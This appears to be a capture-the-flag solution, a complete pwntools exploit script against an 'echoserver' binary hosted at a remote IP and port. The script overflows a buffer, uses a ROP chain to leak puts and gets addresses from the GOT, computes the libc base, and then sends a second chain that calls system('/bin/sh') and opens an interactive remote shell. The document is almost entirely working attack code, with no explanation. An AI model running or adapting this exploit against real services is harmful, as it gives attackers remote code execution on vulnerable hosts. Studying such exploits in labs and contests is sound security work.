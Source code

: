 ## Full exploit script
```python
from pwn import *

elf = ELF("./echoserver_2aa0a5dae5b5c2954ea6917acd01f49b")
libc = ELF("./libc6_2.31-0ubuntu9_amd64.so")

context.binary = elf
run = remote("125.235.240.166", 20101)

main = p64(0x004011ae)
string = b"QUIT"

# First ropchain
puts_plt = p64(elf.plt['puts'])
puts_got = p64(elf.got['puts'])
gets_got = p64(elf.got['gets'])
pop_rdi = p64(0x00000000004012cb)

ropchain1 = b'A' * 0x84 + string
ropchain1 += pop_rdi + puts_got + puts_plt
ropchain1 += pop_rdi + gets_got + puts_plt + main

run.sendline(ropchain1)

# Read leaked addresses
run.recvuntil(b"\n")
leaked_puts = u64(run.recvline().strip().ljust(8, b'\x00'))
leaked_gets = u64(run.recvline().strip().ljust(8, b'\x00'))

log.info("Leaked puts address = " + hex(leaked_puts))
log.info("Leaked gets address = " + hex(leaked_gets))

# Calculate libc base address
libc.address = leaked_puts - libc.sym['puts']
log.info("Libc base = " + hex(libc.address))

# Second ropchain
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym['system']
exit = libc.sym['exit']

log.info("/bin/sh = " + hex(bin_sh))
log.info("system = " + hex(system))

ropchain2 = b'A' * 0x84 + string + pop_rdi + p64(bin_sh) + p64(system)

run.sendline(ropchain2)

run.interactive()
```
